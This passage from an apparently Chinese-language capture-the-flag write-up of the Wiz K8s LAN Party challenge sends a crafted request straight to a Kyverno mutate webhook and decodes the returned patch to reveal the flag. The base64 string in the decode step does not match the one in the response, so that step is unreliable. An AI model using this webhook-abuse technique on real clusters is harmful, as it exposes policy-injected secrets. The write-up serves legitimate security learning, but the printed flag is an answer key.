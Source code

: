 ### 执行 mutate

    player@wiz-k8s-lan-party:~$ curl --http1.1 -X POST -H "Content-Type: application/json" --data-binary @post.json https://kyverno-svc.kyverno.svc.cluster.local/mutate -k | jk
    {"kind":"AdmissionReview","apiVersion":"admission.k8s.io/v1","request":{"uid":"efdec7a8-81ba-46dd-bcda-c77ba875cac5","kind":{"group":"","version":"v1","kind":"Pod"},"resource":{"group":"","version":"v1","resource":"pods"},"requestKind":{"group":"","version":"v1","kind":"Pod"},"requestResource":{"group":"","version":"v1","resource":"pods"},"name":"apply-flag-to-env","namespace":"sensitive-ns","operation":"CREATE","userInfo":{"username":"kube-review","uid":"bd1261ef-efab-4f4b-aba3-805929653144"},"object":{"kind":"Pod","apiVersion":"v1","metadata":{"name":"apply-flag-to-env","namespace":"sensitive-ns","creationTimestamp":null},"spec":{"containers":[{"name":"nginx","image":"nginx","resources":{}}]},"status":{}},"oldObject":null,"dryRun":true,"options":{"kind":"CreateOptions","apiVersion":"meta.k8s.io/v1"}},"response":{"uid":"efdec7a8-81ba-46dd-bcda-c77ba875cac5","allowed":true,"patch":"W3sib3AiOiJhZGQiLCJwYXRoIjoiL3NwZWMvY29udGFpbmVycy8wL2VudiIsInZhbHVlIjpbeyJuYW1lIjoiRkxBRyIsInZhbHVlIjoid2l6X2s4c19sYW5fcGFydHl7eW91LWFyZS1rOHMtbmV0LW1hc3Rlci13aXRoLWdyZWF0LXBvd2VyLXRvLW11dGF0ZS15b3VyLXdheS10by12aWN0b3J5fSJ9XX0sIHsicGF0aCI6Ii9tZXRhZGF0YS9hbm5vdGF0aW9ucyIsIm9wIjoiYWRkIiwidmFsdWUiOnsicG9saWNpZXMua3l2ZXJuby5pby9sYXN0LWFwcGxpZWQtcGF0Y2hlcyI6ImluamVjdC1lbnYtdmFycy5hcHBseS1mbGFnLXRvLWVudi5reXZlcm5vLmlvOiBhZGRlZCAvc3BlYy9jb250YWluZXJzLzAvZW52XG4ifX1d","patchType":"JSONPatch"}}
    

获取 response 
![](assets/img/blog/imported/writeup-k8s-lan-party-by-wiz.io-Pasted-image-20240607154530.png)
### 解码

解码响应中的数据

    player@wiz-k8s-lan-party:~$ echo 'W3sib3AiOiJhZGQiLCJwYXRoIjoiL3NwZWMvY29udGFpbmVycy8wL2VudiIsInZhbHVlIjpbeyJuYfcGFydHl7eW91LWFyZS1rOHMtbmV0LW1hc3Rlci13aXRoLWdyZWF0LXBvd2VyLXRvLW11dGF0ZS15b3VyLXdheS10by12aWN0b3J5fSJ9XX0sIHsicGF0aCI6Ii9tZXRhZGF0YS9hbm5vdGF0aW9ucyIsIm9wIjoiYWRkIiwidmFsdWUiOnsicG9saWNpZXMua3l2ZXJuby5pby9sYXN0LWFwcGxpZWQtcGF0Y2hlcyI6ImluamVjdC1lbnYtdmFycy5hcHBseS1mbGFnLXRvLWVudi5reXZlcm5vLmlvOiBhZGRlZCAvc3BlYy9jb250YWluZXJzLzAvZW52XG4ifX1d' | base64 -d | jq
    [
      {
        "op": "add",
        "path": "/spec/containers/0/env",
        "value": [
          {
            "name": "FLAG",
            "value": "wiz_k8s_lan_party{you-are-k8s-net-master-with-great-power-to-mutate-your-way-to-victory}"
          }
        ]
      },
      {
        "path": "/metadata/annotations",
        "op": "add",
        "value": {
          "policies.kyverno.io/last-applied-patches": "inject-env-vars.apply-flag-to-env.kyverno.io: added /spec/containers/0/env\n"
        }
      }
    ]
    